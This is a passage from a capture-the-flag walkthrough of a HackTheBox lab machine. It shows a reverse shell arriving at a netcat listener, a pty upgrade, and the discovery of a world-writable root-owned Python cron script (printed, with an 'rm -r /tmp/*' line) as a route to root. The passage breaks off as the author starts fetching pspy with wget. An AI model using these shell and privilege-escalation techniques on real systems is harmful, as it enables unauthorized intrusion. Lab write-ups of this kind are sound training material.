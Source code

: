 

You can see in the error that it's trying to run everything from
`0xdf@10.10.14.47` to the `FROM: 0xdf@10.10.14.47` as one command, due
to the added `'`.

At my `nc` listener, I got a shell:



    root@kali# nc -lnvp 443
    Ncat: Version 7.80 ( https://nmap.org/ncat )              
    Ncat: Listening on :::443                                 
    Ncat: Listening on 0.0.0.0:443
    Ncat: Connection from 10.10.10.51.          
    Ncat: Connection from 10.10.10.51:49590.
    python -c 'import pty;pty.spawn("bash")'
    ${debian_chroot:+($debian_chroot)}mindy@solidstate:~$



I'll look at improving the experience for mindy in [Beyond
Root](#better-user-experience).

## Priv: mindy --\> root

### Enumeration

In just looking around the file system, I usually check `/opt` and
`/srv`, expecting to find both empty on most HTB machines. So finding a
world-writable root-owned Python script in `/opt` caught my eye:



    ${debian_chroot:+($debian_chroot)}mindy@solidstate:/$ ls -l /opt/
    total 8
    drwxr-xr-x 11 root root 4096 Aug 22  2017 james-2.3.2
    -rwxrwxrwx  1 root root  105 Aug 22  2017 tmp.py



The script itself doesn't do anything too interesting:



    #!/usr/bin/env python
    import os
    import sys
    try:
         os.system('rm -r /tmp/* ')
    except:
         sys.exit()



### PSpy

Given that file, I want to see if it's being run, so I'll upload
[PSpy](https://github.com/DominicBreuker/pspy). I'll start a Python
webserver in my Pspy directory, and then grab the file with `wget`
(grabbing the 32 bit version since this machine is 32 bit):
